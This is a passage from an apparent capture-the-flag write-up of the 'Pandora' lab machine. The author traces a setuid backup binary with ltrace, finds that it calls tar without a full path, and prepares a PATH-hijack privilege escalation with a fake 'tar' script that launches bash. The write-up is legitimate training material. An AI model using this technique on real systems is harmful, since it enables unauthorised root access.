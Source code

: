 `ltrace` is installed on Pandora, so I’ll run `pandora_backup` through it.
This will drop the SUID bit, but I can still see what it’s trying to do:

    
    
    matt@pandora:~$ ltrace pandora_backup 
    getuid()                                         = 1000
    geteuid()                                        = 1000
    setreuid(1000, 1000)                             = 0
    puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
    )                = 26
    puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
    )      = 43
    system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
    tar: Error is not recoverable: exiting now
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                           = 512
    puts("Backup failed!\nCheck your permis"...Backup failed!
    Check your permissions!
    )     = 39
    +++ exited (status 1) +++
    

It crashes because it doesn’t have permissions to `/root/.backup/pandora-
backup.tar.gz`, which makes sense since `ltrace` drops the privs from SUID.

Still, I’ll note that it’s using `system` to call `tar` without a full path.

### Shell

Because there’s no path given for `tar`, it will use the current user’s `PATH`
environment variable to look for valid executables to run. But I can control
that path, which makes this likely vulnerable to path hijack.

I’ll work from `/dev/shm`, and add that to the current user’s `PATH`:

    
    
    matt@pandora:/dev/shm$ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
    matt@pandora:/dev/shm$ export PATH=/dev/shm:$PATH
    matt@pandora:/dev/shm$ echo $PATH
    /dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
    

Now the first place it will look for `tar` is `/dev/shm`.

For a malicious payload, I’ll keep it really simply:

    
    
    matt@pandora:/dev/shm$ cat tar 
    #!/bin/bash
    
    bash
    